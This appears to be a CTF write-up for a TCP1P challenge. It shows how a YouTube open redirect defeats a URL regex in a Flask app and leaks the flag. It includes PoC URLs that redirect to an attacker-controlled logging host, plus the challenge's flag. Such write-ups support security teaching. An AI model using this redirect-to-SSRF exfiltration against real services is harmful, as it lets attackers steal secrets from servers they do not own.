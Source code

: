 ```yaml
---
title: "0day Youtube Open Redirect to SSRF"
date: "2025-03-23"
description: "0day Youtube Open Redirect Vulnerability Chall in TCP1P Special Ramadhan 2025 "
categories: [
    "Write-up"
]
tags : [
    "National",
    "TCP1P"
]
image: raaa.png
---
```


![](desc.png)

## Desclaimer
i didnt expect this is was 0day vuln lol, but the probset (problem setter) say this:

![](dim.png)

## Challenge Overview
The challenge presented a simple Flask web service with a single GET endpoint. The source code was available, and the functionality seemed straightforward: it accepted a url query parameter, validated that it was a youtube.com URL, and then made a server-side HTTP request to that URL.

```py
@app.get("/")
def home():
    url = request.args.get("url", False)
    if not url:
        return "Url not found"
    if not re.match(r"^https://youtube.com/.*$", url):
        return "url isn't youtube url"
    response = requests.get(url+"?"+FLAG)
    return response.text

```
The server would then send the contents of the fetched URL back in the response.

## Vulnerability Analysis
At first glance, the security filter appears to block non-YouTube URLs. But there's a subtle weakness: the service only checks that the URL starts with https://youtube.com/, and does not validate what the redirected URL points to.

#### Key Issue: Open Redirect on YouTube
YouTube uses a redirection system on the /redirect path, where URLs like this:
```bash
https://youtube.com/redirect?q=https://attacker.com
```
will redirect to https://attacker.com, but still pass the **regex check**.

The Flask app fetches that URL, which means it is **vulnerable to SSRF (Server-Side Request Forgery)** through this open redirect. By abusing this, an attacker can trick the server into making HTTP requests to any domain, including internal services.

## Exploitation Strategy
The `requests.get(url + "?" + FLAG)` portion appends the flag as a query string to the final destination. If the attacker can control the destination domain (via redirection), they can capture this flag.

To exploit it:
1. Setup a HTTP request logging service like webhook
2. Craft a Youtube redirect URL that points to your webhook

## PoC
```
https://youtube.com/redirect?q=https://bargas.requestcatcher.com
```

![](poc.png)

![](reqcatch.png)

Flag: `RAMADAN{open_redirection_on_youtube_is_really_handy}`
